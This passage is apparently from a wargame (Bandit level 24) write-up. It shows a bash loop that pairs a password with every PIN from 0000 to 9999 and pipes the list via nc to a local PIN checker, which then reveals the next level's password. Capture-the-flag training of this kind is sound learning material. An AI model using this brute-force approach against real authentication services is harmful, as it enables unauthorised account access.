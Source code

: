 That's the script i will use to generate the list. I put that in a file and gave that file execution permissions so i can run it.

```terminal
bandit24@bandit:/tmp/dir$ cat script.sh
#!/bin/bash

for i in {0000..9999}; do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> list
done
bandit24@bandit:/tmp/dir$ chmod +x script.sh
bandit24@bandit:/tmp/dir$ ./script.sh
bandit24@bandit:/tmp/dir$ ls
list  script.sh
```

Now if we check the list we generated, we'll see the following.

```terminal
bandit24@bandit:/tmp/dir$ head list
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0004
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0005
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0006
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0007
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0008
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0009
```

We succeeded in creating a list, now let's use that list to brute force the pincode.

```terminal
bandit24@bandit:/tmp/dir$ cat list | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.       
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
.
.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
bandit24@bandit:/tmp/dir$
```


---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
